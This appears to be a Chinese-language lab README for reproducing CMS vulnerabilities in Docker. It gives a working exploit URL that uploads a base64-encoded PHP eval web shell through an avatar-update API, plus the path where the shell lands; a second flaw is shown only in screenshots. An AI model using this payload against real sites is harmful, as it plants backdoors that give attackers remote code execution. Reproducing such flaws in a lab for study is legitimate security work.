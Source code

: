 ## 环境编译
```
docker-compose build
docker-compose up -d
```
## 漏洞一
```
http://127.0.0.1:8001/index.php?c=api&m=data2&auth=50ce0d2401ce4802751739552c8e4467&param=update_avatar&file=data:image/php;base64,PD9waHAgZXZhbCgkX1BPU1RbInBhc3MiXSk7ID8+
```
![](luffy1.png)
木马地址
```
http://127.0.0.1:8001/uploadfile/member/0/0x0.php
```
![](luffy2.png)

## 漏洞二

先注册登录
![](luffy3.jpeg)

然后提交payload
![](luffy4.jpeg)


[漏洞连接](http://4o4notfound.org/index.php/archives/40/)

